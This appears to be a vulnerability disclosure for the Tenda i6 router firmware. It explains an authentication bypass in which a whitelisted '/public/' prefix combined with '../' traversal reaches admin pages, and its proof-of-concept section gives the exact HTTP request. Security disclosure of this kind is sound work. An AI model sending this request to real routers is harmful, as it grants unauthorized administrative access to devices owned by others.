



# i6 Vulnerability

Vendor:Tenda

Product:i6 

Version: V1.0.0.7(2204) 

Vulnerability: Whitelist Bypass via Path Traversal

Firmware Download:https://www.tenda.com.cn/material/show/2481

Author:Li Tengzheng

## Descriptions

We found a Whitelist Bypass via Path Traversal vulnerability  in `httpd` .

<div  align="center"></div>

A critical authentication bypass vulnerability exists in the Tenda i6 router, specifically within the R7WebsSecurityHandlerfunction of the V1.0.0.7(2204) firmware. This function acts as a security gatekeeper for all incoming HTTP requests. Its primary mechanism is a URL prefix whitelist (e.g., /public/, /lang/) meant to grant unauthenticated access to static resources. The function uses `strncmp` to check if the request URL begins with these trusted prefixes: e.g., `if ( !strncmp(s1, "/public/", 8u) ... return 0;`.

<div  align="center"></div>

However, the application fails to validate or canonicalize the subsequent part of the URL. An unauthenticated remote attacker can send a crafted HTTP request that starts with a whitelisted prefix but employs directory traversal sequences (`../`) to escape the restricted directory. 

<div  align="center"></div>

For example, a request to `/public/../system_upgrade.asp` will satisfy the `strncmp` check (bypassing authentication) but will be resolved by the web server to the sensitive `system_upgrade.asp` page, granting full administrative access.


## Proof of Concept (PoC)

```
GET /public/../system_upgrade.asp HTTP/1.1
Host: 192.168.6.2
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```
## Before

Under normal circumstances, accessing any administrative or restricted page (e.g., system_upgrade.asp) without prior authentication would result in the request being intercepted and redirected to the login page (typically with a 302 status code).

<div  align="center"></div>


## After

By exploiting this vulnerability, an attacker can trivially bypass this mandatory login requirement, thereby gaining direct, unauthenticated access to sensitive resources, administrative interfaces, and confidential information.

<div  align="center"></div>

